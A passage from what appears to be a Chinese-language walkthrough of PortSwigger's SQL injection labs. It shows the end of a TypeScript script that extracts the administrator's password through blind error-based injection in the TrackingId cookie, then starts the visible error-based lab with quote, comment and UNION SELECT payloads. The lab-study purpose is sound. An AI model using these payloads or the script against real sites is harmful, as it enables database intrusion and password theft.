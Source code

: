 ```ts
      const response = await fetch(url, {
        headers: {
          cookie: `session=${session}; TrackingId=${trackingId}' AND (SELECT CASE WHEN (SUBSTR(password, ${i + 1}, 1) = '${passwordChar}') THEN TO_CHAR(1/0) ELSE 'a' END FROM users WHERE username = 'administrator') = 'a`,
        },
      });
      if (response.status === 500) {
        password[i] = passwordChar;
        break;
      }
    }
  }
  console.log("result");
  console.log(password.join(""));
}

Blind_SQL_injection_with_conditional_errors();
```

## Lab: Visible error-based SQL injection

| Dimension | Description                                                                                                       |
| --------- | ----------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/sql-injection/blind#extracting-sensitive-data-via-verbose-sql-error-messages |
| Lab       | https://portswigger.net/web-security/sql-injection/blind/lab-sql-injection-visible-error-based                    |

先嘗試在 cookies.TrackingId 注入 `'`

```
TrackingId=8F6rc8mGRxhQxZx9'
```

根據錯誤訊息，可以看到以下 SQL

```sql
SELECT * FROM tracking WHERE id = '8F6rc8mGRxhQxZx9''
```

嘗試正確的語法

```sql
SELECT * FROM tracking WHERE id = '8F6rc8mGRxhQxZx9'--'
```

再度嘗試一個正確的語法

```sql
SELECT * FROM tracking WHERE id = '8F6rc8mGRxhQxZx9' UNION SELECT password FROM users--'
```

思考了一下，這題不太可能繼續用爆破的方式，文章內有提供解題思路

You can use the `CAST()` function to achieve this. It enables you to convert one data type to another. For example, imagine a query containing the following statement:
